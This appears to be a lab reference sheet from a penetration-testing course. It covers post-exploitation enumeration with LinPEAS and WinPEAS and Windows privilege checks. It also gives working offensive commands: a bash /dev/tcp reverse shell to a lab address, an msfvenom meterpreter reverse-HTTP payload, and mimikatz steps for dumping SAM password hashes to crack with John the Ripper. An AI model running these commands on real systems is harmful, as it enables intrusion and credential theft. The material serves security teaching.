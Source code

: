 

# Enumeration Scripts

Note:  Enumeration scripts for this lab are located in 
`~/cnm352-tools/scripts`

### Uploading Scripts

Sometimes it can be a little tricky to find spots to upload scripts.  You will need a directory that is writable by your current user so you can write the file.  

In Linux, a likely folder is `/tmp`  because this is world-writable.  

In Windows, there are two folders you can try, using variable strings (you type these in exactly like this and the variable will translate to the correct place):

- On older versions of Windows:  `%systemdrive%\Windows\Temp`
- For newer versions: `%userprofile%\AppData\Local\Temp`

## Linux

### LinPEAS

To run the Linpeas enumeration script, first transfer the linpeas.sh file to the target and set the execute bits.

```bash
chmod +x linpeas.sh
```

Run the script one of two ways to capture output:

```bash
# Don't show output at the CLI, only capture to a file
./linpeas.sh > linpeas.txt

# Show output at CLI AND capture to file
./linpeas.sh | tee linpeas.txt
```

To view the output of the file in Kali with color coding:

```bash
less -R linpeas.txt
# Answer Y when asked if you want to continue opening
```

## Windows

### WinPEAS

Winpeas for Windows comes in multiple varieties.  The best one to use depends on the situation, but running each is straightforward:

```bash
# Batch file (for worst case scenarios)
winPEAS.bat > winpeas.txt

# 32-bit & compatible with 64-bit
winPEASx86.exe > winpeas.txt

# 64-bit only
winPEASx64.exe > winpeas.txt

# Viewing file from Windows CLI
type winpeas.txt
```

### Reverse Shell Without Netcat

You are not always guaranteed to have netcat on a target system.  You could always transfer the netcat binary.  However, it's also possible to initiate a reverse shell connection without netcat on the target.  

You will still need to start a netcat listener on Kali, but issuing this command on the target will cause the target to connect back in a reverse shell:

```bash
# Example 
# Connect to a netcat listener on 10.250.226.250 port 8001
bash &>/dev/tcp/10.250.226.250/8001 <&1
```

NOTE:  If echoing this command into a file, BE SURE to enclose it in single quotes or it will execute commands:

```bash
# Example
echo 'bash &>/dev/tcp/10.250.226.250/8001 <&1' > somefile.sh
```

MSFvenome

msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.14.37 LPORT=8000 -f exe -o win_met_revhttp_8000.exe

### Checking Permissions on Windows

Use whoami to check if a user is an administrator on Windows and also what context the prompt is running in.

#### Admin Group

Check the groups a user is in with whoami and see if they are a member of Administrators:

```bash
whoami /groups
```

#### UAC Context

If UAC is enabled on a system, the prompt can run in an admin or non-admin context, depending on what created the shell.  You can tell this by looking at the `whoami /groups` output and near the end is a line that says `Mandatory Label`.  

- If the prompt is an admin prompt, this will display `Mandatory Label\High Mandatory Level`
- If the prompt is an non-admin prompt, this will display `Mandatory Label\Medium Mandatory Level` 

#### Extended Permissions

You can view the special permissions of an account to see if they have some vulnerable permissions such as `seimpersonate` using this command:

```bash
whoami /priv
```

### Checking Windows Architecture

Enter this command to find the system's 32 or 64 bit architecture:

```bash
wmic os get OSArchitecture
```

### Dumping Windows Hashes with MimiKatz

You can dump hashes in a regular shell by using the mimikatz tool.   The mimikatz executables are found in Kali under `/usr/share/windows-resources/mimikatz`.  Mimikatz has a 32 and 64-bit version, and this should match the target system's architecture.  

This tool requires and admin account in order to run.

After transferring the correct mimikatz binary to the Windows target, run mimikatz to enter the mimikatz prompt.  Then run the following commands to retrieve the hashes:

1. Request debug privileges

   `privilege::debug`

2. Impersonate the SYSTEM user's token to run commands as SYSTEM
   `token::elevate`

3. Dump the password hashes in the SAM file from the LSA process's memory space
   `lsadump::sam`

4. Search the output for usernames and hashes.  It will show up as an NTLM hash, but JTR uses `NT` as the format.

5. Copy the hash values to a file in Kali Linux and then run John the Ripper on them to crack them:
   `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt`

